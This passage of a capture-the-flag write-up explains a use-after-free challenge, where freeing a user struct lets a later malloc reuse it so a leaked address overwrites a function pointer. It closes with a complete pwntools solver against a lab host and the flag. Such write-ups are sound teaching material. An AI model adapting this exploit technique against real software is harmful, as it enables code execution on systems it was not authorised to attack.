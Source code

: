 All I need is to occupy the dangling `cmd *user` pointer with the address of the `hahaexploitgobrrr()` to run the `uintptr_t (*whatToDo)();` function pointer. But how?

**4. Occupying The Memory Space**

Now the problem is how to occupy the memory space. The solution for this lies in the `leaveMessage()` function; it does:

```c
char* msg = (char*)malloc(8);      // Allocates 8 bytes
read(0, msg, 8);                   // Lets you write 8 bytes into it
```

Since user object was just freed, `malloc(8)` reuses the same memory that user object previously occupied (due to heap allocation optimizations). This means your input overwrites the old user struct. The user object is a struct defined as:

```c
typedef struct {
    uintptr_t (*whatToDo)();       // Function pointer (4 or 8 bytes)
    char *username;                // String pointer (4 or 8 bytes)
} cmd;
```

Meaning I can just send in the first 8 bytes, the leaked address of the  `hahaexploitgobrrr()` to overwrite the `(*whatToDo)()` pointer function using `read(0, msg, 8)`. Another question is how. Well, with the help of AI, all I need to do is use `pwntools` in Python and use the `p64(value)` helper function, which is often used in binary exploitation and CTF challenges when crafting payloads that overwrite memory.

**5. Time To Get That Flag🚩**

Now we just need to create our solver program to get that flag. This is also the **full source code** of the solution.

```python
from pwn import *

p = remote('192.168.8.136', 10013)

# Step 1: Get the leaked address
p.sendlineafter('(e)xit\n', 'S')
leak_line = p.recvline()
leak_addr = int(leak_line.split(b'...')[1].strip(), 16)

# Step 2: Free the user object
p.sendlineafter('(e)xit\n', 'I')
p.sendlineafter('You\'re leaving already(Y/N)?\n', 'Y')

# Step 3: Overwrite the function pointer
p.sendlineafter('(e)xit\n', 'L')
p.send(p64(leak_addr))

# The program will now call doProcess() with our overwritten pointer
# and execute hahaexploitgobrrr()
p.interactive()
```
The flag is:
> CITU{CWE_416_USE_AFTER_FREE}
